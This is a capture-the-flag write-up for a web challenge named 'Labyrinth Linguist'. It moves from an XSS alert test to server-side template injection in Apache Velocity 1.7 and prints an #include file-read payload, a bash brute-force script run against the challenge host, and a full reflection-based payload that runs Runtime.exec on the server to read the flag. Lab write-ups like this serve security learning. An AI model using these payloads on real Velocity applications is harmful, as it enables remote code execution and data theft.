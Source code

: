 ## Labyrinth Linguist

#### 1. Initial Recon

Simple page where user submits an input to be translated into the made up "voxalith" language.

After inputting a text, I inspect the html using DevTools and see that my text is simply inserted directly into to DOM:

```
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Labyrinth Linguist 🌐</title>
    <link rel="stylesheet" href="/css/style.css">
</head>
<body>
    <form class="fire-form" action="" method="post">
        <span class="fire-form-text">Enter text to translate english to voxalith!</span><br><br>
        <input class="fire-form-input" type="text" name="text" value="">
        <input class="fire-form-button" type="submit" value="Submit →">
    </form>
    <h2 class="fire">hello</h2>  # my input "hello"
</body>
```

With this knowledge, we are likely dealing with an unsanitized input vulnerability.

#### 2. Injection Testing

The payload to test unsanitized JS inputs:

```
<script>alert('hello')</script>
```

This yields an alert message so we know that the input is not properly sanitized. This XSS vulnerability is a great step but is a client side vulnerability - we want to be able to interact with the server side to give us the contents of the flag.txt file so we will keep searching for other injection types.

After taking a look at the challenge files, the pom.xml file lets us know that the application is using a template service Apache Velocity v1.7 so we can look into a potential template injection vulnerability. What the template essential does for this service is replace any value containing "TEXT" with what we enter for the ?text parameter or the submission. 

To first test if template injection is possible, I will enter $name and if the page returns "world" the vulnerability is proved. The below lines in the main.java file show that the template is creating a variable "name" with "World" as its value:

```
t.setData(runtimeServices.parse(reader, "home"));
			t.initDocument();
			VelocityContext context = new VelocityContext();
			context.put("name", "World");
```

The test results: 

![nameVar](https://github.com/user-attachments/assets/7e8bce0d-b568-40f0-a214-0535db620e1a)

Great, we have proven SSTI, now to get the flag.

#### SSTI injection with Apache Velocity Template

So quick basics on Velocity tell me that $ marks variables and # marks commands. Here is the documentation for Velocity:

https://velocity.apache.org/engine/1.7/user-guide.html

So, the following:

```
#set ($run=1 + 1) $run 
```

Should put 2 on the page (in voxalaith). Let me try.

![testSet](https://github.com/user-attachments/assets/e1372a3d-3b0a-4fb1-aa3d-813b505d39f0)

As expected, the page rendered the value 2, so the above payload worked. Now how do we retrieve a file on the server?

After reading through the Velocity documentation, there is a directive (command) that will allow us to retrieve content on the server side. This magical directive is #include, the format for this directive is #include("/what/we/want"). To test this, we can first try getting files we know about like the pom.xml file.

Success, the contents of the pom file are outputted:

![pom](https://github.com/user-attachments/assets/0cb2b612-c655-4ea6-935b-2ab6091c97db)

But after playing around searching for the flag.txt and trying common directories, there is no luck.

entrypoint.sh tells us that they renamed the /flag.txt file to /flag**********.txt where the *** part comes from the following command:

```
# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

With this knowledge, I can create a brute force script that will try different combinations of /flag**********.txt until the http response is 200. 

The script:

```
#!/bin/bash

# Base URL
base_url="http://94.237.51.188:37293?text=%23include%28%22%2FflagHERE.txt%22%29" #url encoded

echo "Starting brute force..."

while true; do
    # Generate a random 10-character string
    random_string=$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10)

    # Replace "HERE" with the random string in the URL
    url=${base_url/HERE/$random_string}
    echo $url
    # Execute the curl command
    response=$(curl -s -o /dev/null -w "%{http_code}" "$url")

    # Check if the status is 200
    if [ "$response" -eq 200 ]; then
        echo "Success! File found with URL: $url"
        echo "Check the url for the flag"
        exit 0
    fi
done

```

Ok, I'll admit, trying a brute force was pretty gung ho of me. The creators of this flag probably didn't envision a brute force method. Probably something with more touch.

After considerable research into SSTI with Apache Velocity, I came across an article on iwconnect.com (linked below) that provides excellent insight into the SSTI vulnerabilities with velocity by making use of Java within velocity affirmatives. This site also provided the payload necessary to find & read the flag. Below is the payload used:

```
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat ../flag.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

I used burpsuite repeater to make the request (and make countless other failed injection attempts) and get the flag in the response:

![flag](https://github.com/user-attachments/assets/0e539d37-5245-424e-88bc-1fcfb6691ae2)


#### Resources

- https://iwconnect.com/apache-velocity-server-side-template-injection/
- https://antgarsil.github.io/posts/velocity/
- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
- https://velocity.apache.org/engine/1.7/user-guide.html
- https://portswigger.net/web-security/server-side-template-injection
